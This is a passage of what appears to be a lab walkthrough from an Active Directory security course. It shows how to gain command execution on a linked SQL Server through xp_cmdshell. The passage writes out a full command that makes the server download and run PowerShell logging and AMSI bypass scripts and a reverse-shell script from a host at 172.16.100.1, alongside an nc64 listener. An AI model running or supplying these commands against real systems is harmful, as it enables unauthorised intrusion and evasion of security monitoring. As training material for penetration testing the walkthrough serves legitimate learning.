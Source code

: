 - **Validate Command Execution on a Linked SQL Server**

`Get-SQLServerLinkCrawl -Instance 'dbserver31.tech.finance.corp' -Query "exec master..xp_cmdshell 'set username'"`:
```
Version     : SQL Server 2019
Instance    : DBSERVER31
CustomQuery : {USERNAME=sqlserversync, }📌
Sysadmin    : 1
Path        : {DBSERVER31}
User        : TECH\databaseagent
Links       :
```

- **Obtain a Reverse Shell Executing a PowerShell Script on the Target SQL Server**

![studvm | studentuser $>](https://custom-icon-badges.demolab.com/badge/studvm-studentuser%20[%24>]-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\nc64.exe -lvp 443`:
```
listening on [any] 443 ...

[...]
```

![Invoke-PowerShellTcpEx.ps1](./assets/screenshots/learning_objective_22_invokepowershelltcpex.png)

`Get-SQLServerLinkCrawl -Instance 'dbserver31.tech.finance.corp' -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://172.16.100.1/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://172.16.100.1/amsibypass.txt);iex (iwr -UseBasicParsing http://172.16.100.1/Invoke-PowerShellTcpEx.ps1)"''' -QueryTarget 'dbserver31'`
